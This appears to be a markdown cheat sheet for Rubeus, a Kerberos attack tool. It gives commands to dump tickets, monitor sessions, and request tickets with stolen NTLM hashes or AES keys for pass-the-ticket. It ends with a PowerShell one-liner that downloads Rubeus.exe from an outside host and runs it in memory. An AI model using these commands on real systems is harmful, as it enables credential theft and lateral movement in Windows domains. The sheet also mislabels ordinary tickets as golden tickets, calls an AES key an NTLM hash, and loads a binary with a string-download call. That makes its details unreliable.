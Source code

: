 # Rubeus

## 01 - Basic Commands

List golden tickets that are being used.

`C:\> Rubeus.exe klist`

A much nicer way to see the golden tickets when using `triage` flag

`C:\> Rubeus.exe triage`

If the tickets exist dump them into base64 encoded

`C:\> Rubeus.exe dump /nowrap`

Monitors the number of golden ticket sessions for every 10 seconds this is useful as a keylogger vector

```
C:\> Rubeus.exe monitor /interval:10 /nowrap

C:\> Rubeus.exe asktgt /user:<username> /domain:<domain_name> /rc4:<ntlm_hash> /ptt

C:\> Rubeus.exe asktgt /user:<username> /domain:<domain_name> /aes256:<ntlm_hash> /createnetonly:C:\Windows\system32\cmd.exe /ptt
```

## 02 - Download and Execute

```powershell
PS C:\> $data = (New-Object Net.WebClient).DownloadString('http://<IP>/Rubeus.exe')
$assembly = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("purge".Split())
```